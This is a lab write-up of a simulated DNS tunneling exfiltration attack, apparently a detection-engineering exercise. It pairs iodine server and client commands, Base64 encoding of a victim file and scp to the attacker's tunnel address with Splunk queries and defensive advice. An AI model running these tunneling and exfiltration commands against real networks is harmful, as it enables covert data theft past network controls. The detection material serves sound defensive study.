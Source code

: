 
# 📄 **DNS Tunneling - Data Exfiltration via Encoded DNS Subdomain Queries**

---

## 📝 **Attack Title**

DNS Tunneling — Data exfiltration via encoded DNS subdomain queries

---

## 🔎 **Attack Summary**

In this simulation, I demonstrated a covert data exfiltration attack using DNS tunneling. DNS tunneling allows attackers to bypass traditional network security controls by encoding and transferring data through DNS requests. The objective of this simulation was to observe log artifacts generated during DNS tunneling and validate detection logic using Splunk.

---

## 🧰 **Lab Environment**

| Component        | Details                                                  |
| ---------------- | -------------------------------------------------------- |
| Attacker Machine | Kali Linux                                               |
| Victim Machine   | Windows 11 (or Linux for simplicity during client setup) |
| DNS Tunnel Tool  | Iodine                                                   |
| SIEM Platform    | Splunk Enterprise                                        |
| Log Sources      | Sysmon DNS logging, Windows Event Logs                   |

---

## 🚩 **Attack Details**

* **Attack Type**: Data Exfiltration via DNS Tunneling
* **Tools Used**: Iodine
* **Protocol Used**: DNS (port 53 UDP)
* **Payload**: Base64-encoded sensitive data

---

## 💻 **Attack Execution**

---

### 🔐 Step 1 — Prepare DNS Server for Tunneling

> *(Optional if testing locally with internal DNS server)*

* Registered domain: `labdomain.com`
* NS record created: `tunnel.labdomain.com` pointed to attacker's public IP

---

### 🔐 Step 2 — Install DNS Tunnel Tool (Iodine)

#### On Attacker (Kali Linux)

```bash
sudo apt update
sudo apt install iodine
```

#### Start iodine server:

```bash
sudo iodined -f -P secretpassword 10.0.0.1 tunnel.labdomain.com
```

---

### 🔐 Step 3 — Prepare Data for Exfiltration

#### On Victim (Windows/Linux)

Create sample secret data:

```powershell
echo "This is secret data" > C:\Users\victim\Documents\secret.txt
```

Encode data in Base64:

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\victim\Documents\secret.txt")) > C:\Users\victim\Documents\secret_base64.txt
```

---

### 🔐 Step 4 — Start DNS Tunnel Client

#### On Victim (Linux for simplicity):

```bash
sudo apt install iodine
sudo iodine -f -P secretpassword tunnel.labdomain.com
```

#### Tunnel is established ✅

---

### 🔐 Step 5 — Exfiltrate Data

Copy the encoded file over the DNS tunnel:

```bash
scp secret_base64.txt 10.0.0.1:/tmp/
```

Decode on the attacker:

```bash
cat /tmp/secret_base64.txt | base64 -d
```

✅ Successful exfiltration via DNS tunnel.

---

## 📊 **Log Evidence Captured**

### 1️⃣ Sysmon DNS Logs (EventCode 22)

* Long DNS queries observed with unusually large subdomain strings.
* Frequent DNS requests to `tunnel.labdomain.com`

### 2️⃣ DNS Server Logs (if present)

* Multiple lookup requests for suspicious subdomains.

---

## 🔍 **Splunk Search Queries**

### 🔎 DNS Query Length Anomaly (detect long encoded queries)

```spl
index=win_logs sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=22
| eval query_length = len(QueryName)
| where query_length > 50
| stats count by QueryName, query_length, Computer
```

---

### 🔎 Focused Search on Your Tunneling Domain

```spl
index=win_logs sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=22 QueryName="*tunnel.labdomain.com*"
```

---

### 🔎 High Volume Queries from Same Host

```spl
index=win_logs sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=22
| stats count by Computer, QueryName
| where count > 100
```

---

## 📈 **Detection Outcome**

* ✅ Sysmon successfully logged DNS queries with long subdomains.
* ✅ Splunk successfully displayed DNS tunneling indicators.
* ✅ High-frequency and long DNS queries indicate exfiltration behavior.

---

## 🛡 **Defensive Recommendations**

* Enable Sysmon DNS Query Logging (Event ID 22).
* Monitor for long DNS query strings.
* Monitor abnormal DNS request frequencies.
* Limit external DNS resolution on critical servers.
* Use network security appliances capable of DNS inspection.
* Implement egress filtering to limit unauthorized DNS traffic.

---

## 📦 **MITRE ATT\&CK Mapping**

| Tactic            | Technique                                      |
| ----------------- | ---------------------------------------------- |
| Exfiltration      | T1048 — Exfiltration Over Alternative Protocol |
| Command & Control | T1071.004 — Application Layer Protocol: DNS    |
| Defense Evasion   | T1568 — Dynamic Resolution                     |

---

## ⚠️ LEGAL NOTICE

This activity was performed strictly for lab and educational purposes in a controlled environment.
